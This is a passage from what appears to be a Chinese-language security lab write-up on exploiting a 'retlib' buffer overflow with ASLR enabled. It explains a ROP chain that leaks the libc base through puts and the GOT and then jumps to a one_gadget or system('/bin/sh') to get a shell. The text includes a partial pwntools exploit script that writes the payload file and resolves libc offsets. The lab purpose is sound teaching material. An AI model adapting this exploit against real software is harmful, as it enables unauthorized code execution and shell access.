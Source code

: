 而漏洞生成程序的X Y Z只取决于栈的相对结构，对于固定的程序，栈上数据相对偏移是不变的。

不过，开启ASLR后，在当前的编译选项下仍然有机会获取shell：  

因为这次的溢出点不再是会截断的strcpy，而是会读满输入的fread，所以我们可以构造不受字符截断限制的ROP链：
- 利用程序中已有的函数动态泄露libc的基址，跳过Task 1中关掉ASLR的步骤
  + 我们可控的ROP链有 (40-24)/4=4 节
  + 构造以下ROP链泄露libc基址（我们的程序中有puts）
     | ebp | 调用函数 | 调用函数的返回地址 | 调用函数的参数 |
     | --- | --- | --- | --- |
     | - | puts(plt表) | main | __libc_start_main(got表) | 
  + 此时程序会无限打印出`__libc_start_main`的真实地址，我们可以选用不同函数多次运行，根据低位判断libc的版本，得到`__libc_start_main`的偏移， **真实地址减去偏移即是此时随机的libc的基址**
- 在libc中动态查找`/bin/sh`的地址（libc里不仅一定有`/bin/sh`的字符串，还会有`execve("/bin/sh", 0, 0)`的gadget），跳过Task 2中构造环境变量的步骤
  + 由于有了libc的地址，我们可以调用libc的任意函数（参数不超过两个，我们的溢出长度不够用read或者fread进行栈迁移）  
  + 又有libc版本的情况下，我们可以下载对应版本的glibc，在其中寻找One_Gadget或者`/bin/sh`字符串的地址
- 根据找到的One_Gadget加上libc基址，直接重写badfile，将返回地址劫持至OG即可

这样就可以在不知道目标系统env环境，不知道libc版本，开启ASLR的情况下获取shell。  

但如果开启了Canary或者PIE，对于本场景就很难有解的机会了  

利用脚本，注意这里我在fread前加了  
```c
int c=100000000;
while(c--);
```
用来减慢程序每轮循环的周期，不然需要使用更高效的写入文件方法如内存映射，避免漏洞程序读到文件刷新时的空文件正常返回。  
```python
import os

from pwn import *
from LibcSearcher import *

e = ELF("retlib")
puts_plt = e.plt['puts']
leak_function = 'fread'
leak_got = e.got[leak_function]
main_addr = e.symbols['main']
#context.log_level='debug'
print("[*] Loading ELF Symbols...")
print("[+] puts_plt: " + hex(puts_plt))
print("[+] leak_got: " + hex(leak_got))
print("[+] main_addr: " + hex(main_addr))
print()

print("[*] Writing Payload to file...")
f = open("badfile", "wb")
f.write(b"A" * 24 + p32(puts_plt) + p32(main_addr) + p32(leak_got))
f.close()
print("[+] ROP Chain: junk * 20 + [junk rbp] + [puts_plt] + [main_address] + [leak_got]")
print()

print("[*] First time start the program to get the version of libc...")
p = e.process()
leak_addr = u32(p.recv(4))
p.close()
print("[+] First time " + leak_function + " address: " + hex(leak_addr))
obj = LibcSearcher(leak_function, leak_addr)
libc_func_offset = obj.dump(leak_function)
print("[+] " + leak_function + ' offset: ' + hex(libc_func_offset))
system_offset = obj.dump("system")
print("[+] system_offset: " + hex(system_offset))
binsh_offset = obj.dump("str_bin_sh")
print("[+] binsh_offset: " + hex(binsh_offset))
```